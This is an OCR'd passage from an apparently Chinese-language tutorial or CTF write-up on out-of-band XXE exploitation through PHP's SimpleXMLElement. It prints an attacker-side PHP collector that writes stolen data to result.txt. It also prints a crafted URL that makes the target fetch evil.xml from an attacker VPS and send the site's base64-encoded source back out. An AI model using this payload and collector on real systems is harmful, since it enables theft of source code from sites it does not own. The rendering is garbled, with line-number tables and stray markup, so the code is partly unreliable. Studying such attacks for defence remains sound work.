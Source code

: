 `发送.php：`

`  
`

``

`PHP`

``

    
    
    1   
    2   
    3  
    

|

    
    
       
     file_put_contents( "result.txt" , $_GET [ 'file' ]) ;   
    ?>  
      
  
---|---  
  
`  
`

`然后在url中构造如下：`

`  
`

``

`代码`

``

    
    
    1  
    

|

    
    
    /show.php?module=SimpleXMLElement&args[]=http://47.xxx.xxx.72/evil.xml&args[]=2&args[]=true  
      
  
---|---  
  
`  
`

`这样目标主机先加载我们vps上的evil.xml，再send.xml加载。`

`如下图所示，成功将网站的源码以base64编码的形式读取并带出到result.txt中：`

`![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210826084301.png)`
